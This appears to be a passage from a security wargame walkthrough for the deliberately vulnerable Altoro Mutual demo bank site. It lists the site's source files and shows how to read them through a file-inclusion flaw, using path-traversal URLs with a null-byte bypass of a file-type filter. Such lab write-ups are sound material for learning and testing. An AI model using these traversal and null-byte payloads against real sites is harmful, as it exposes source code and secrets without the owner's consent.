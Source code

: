 ~~~
 5/31/2007 11:10 AM        <dir> 20060308_bak
 1/12/2011 10:14 PM         1831 account.aspx
 1/12/2011 10:14 PM         4277 account.aspx.cs
 1/12/2011 10:14 PM          771 apply.aspx
 1/12/2011 10:14 PM         2828 apply.aspx.cs
 1/12/2011 10:14 PM         2236 bank.master
 1/12/2011 10:14 PM         1134 bank.master.cs
 1/12/2011 10:14 PM          904 customize.aspx
 1/12/2011 10:14 PM         1955 customize.aspx.cs
 1/12/2011 10:14 PM         1806 login.aspx
 1/12/2011 10:14 PM         5847 login.aspx.cs
 1/12/2011 10:14 PM           78 logout.aspx
 1/12/2011 10:14 PM         3361 logout.aspx.cs
 1/12/2011 10:14 PM          935 main.aspx
 1/12/2011 10:14 PM         3951 main.aspx.cs
 5/31/2007 11:10 AM        <dir> members
 1/12/2011 10:14 PM         1414 mozxpath.js
 6/21/2011 10:29 PM          779 queryxpath.aspx
 1/12/2011 10:14 PM         1838 queryxpath.aspx.cs
 1/12/2011 10:14 PM          499 servererror.aspx
 1/12/2011 10:14 PM         1700 transaction.aspx
 1/12/2011 10:14 PM         3826 transaction.aspx.cs
 1/12/2011 10:14 PM         3930 transfer.aspx
 1/12/2011 10:14 PM         3505 transfer.aspx.cs
 1/12/2011 10:14 PM           82 ws.asmx
~~~

Since the application is written in C# you might want to see whats behind the *.cs files. However clicking on the files will trigger following error message:

~~~
An Error Has Occurred
Summary:
An unknown error occurred.
Error Message:
~~~

So you'll have to find another way to get to the files. We'll use the **file inclusion vulnerability** found before to do that.

<http://demo.testfire.net/default.aspx?content=../bank/login.aspx.cs> will result in

~~~
Error! File must be of type TXT or HTM
~~~

We'll have to bypass the filter in order to get the file. Remember the **null string vulnerability**? Here we go: [http://demo.testfire.net/default.aspx?content=../bank/login.aspx.cs%00.txt][3].

That will show you the content of */bank/login.aspx.cs*. Now you can inspect the the source code to find more vulnerabilities.

## /bank/login.aspx


 [3]: http://demo.testfire.net/default.aspx?content=../bank/login.aspx.cs%EF%BF%BD.txt
 [7]: http://www.portswigger.net/burp/
 [8]: http://dornea.nu/wargames/altoro-mutual?action=AttachFile&do=get&target=login_sql_injection.png "attachment:login_sql_injection.png"
 [9]: http://demo.testfire.net/default.aspx?content=../bank/main.aspx.cs%EF%BF%BD.txt